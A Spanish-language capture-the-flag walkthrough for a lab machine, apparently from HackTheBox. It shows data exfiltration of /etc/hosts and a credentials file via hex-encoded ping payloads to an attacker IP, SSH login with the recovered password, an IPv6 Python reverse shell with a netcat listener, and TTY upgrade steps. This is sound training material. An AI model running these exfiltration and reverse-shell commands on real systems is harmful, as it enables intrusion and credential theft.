 Si desde el panel de comandos de la web le ponemos:

```bash
xxd -p -c 4 /etc/hosts | while read line; do ping -c 1 -p $line 10.10.14.29; done
```

podemos leer ficheros internos de la maquina victima con ping.

Como en la web vemos un mensaje que hay un fichero credentials en el directorio personnal, miramos para leerlo con el commando

```bash
xxd -p -c 4 /home/loki/cred* | while read line; do ping -c 1 -p $line 10.10.14.29; done
```

y vemos un password 
```bash
 lokiisthebestnorsegod 
```
.## Vuln exploit & Gaining Access {-}

### Ganando acceso con ssh {-}

Como tenemos la contraseña del usuario loki, no connectamos a la maquina victima con 
ssh.

```bash
ssh loki@10.10.10.92
password: lokiisthebestnorsegod
```

y podemos visualizar la flag.

### Ganando acceso con ipv6 {-}

Tambien podriamos ganar acceso al systema por IPV6

1. Mirar con ifconfig nuestra ipv6
1. Ponernos en escucha por ipv6 con netcat

    ```bash
    nc -nv --listen dead:beef:2::101b 443
    ```

1. Entablar la reverse shell con python

    ```bash
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::101b",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    ```

Y de esta manera vemos que ganamos acceso a la maquina victima como *www-data*

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```
